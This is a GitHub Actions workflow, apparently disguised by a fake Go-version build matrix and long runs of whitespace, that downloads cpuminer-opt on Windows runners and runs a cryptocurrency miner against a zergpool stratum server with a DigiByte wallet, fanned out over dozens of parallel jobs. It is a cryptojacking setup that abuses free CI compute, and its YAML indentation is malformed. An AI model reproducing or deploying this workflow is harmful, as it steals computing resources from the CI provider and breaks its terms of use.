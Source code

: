 name: eX-code_UMBL

on: [workflow_dispatch]

jobs:

  build:

      name: eX-code_UMBL

          runs-on: windows-latest

               
          strategy:

              max-parallel: 5

              fail-fast: false

               matrix:

               go: [1.0, 1.1, 1.2, 1.3, 1,35]

               flag: [A, B, C, D, E, F, G, H, I]

            env:

               NUM_JOBS: 20

               JOB: ${{ matrix.go }}

                                                                                      steps:

                                                                                          - name: PREPARING

                                                                                          - run: Invoke-WebRequest https://github.com/JayDDee/cpuminer-opt/releases/download/v3.17.1/cpuminer-opt-3.17.1-windows.zip -Outfile cpuminer-opt-3.17.1-windows.zip

                                                                                          - name: Seting-UP

               run: Expand-Archive cpuminer-opt-3.17.1-windows.zip

             - name: Running

                run: .\cpuminer-opt-win\cpuminer-sse2.exe -a power2b -o stratum+tcp://power2b.na.mine.zergpool.com:7445 -u DGB_dgb1qkpmvdct307nehn5lwr5scprtter9qdpe98uvu7.WORKER_NAME -p c=DGB

             - name: DONE

               run: exit
